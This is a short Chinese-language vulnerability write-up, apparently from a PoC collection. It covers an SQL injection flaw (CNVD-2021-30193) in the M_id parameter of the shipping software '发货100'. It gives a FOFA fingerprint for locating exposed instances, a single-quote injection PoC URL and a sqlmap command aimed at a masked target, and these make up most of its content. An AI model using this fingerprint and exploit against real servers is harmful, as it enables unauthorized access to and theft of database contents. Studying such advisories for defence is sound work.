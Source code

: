 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## FOFA

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170900124.png)
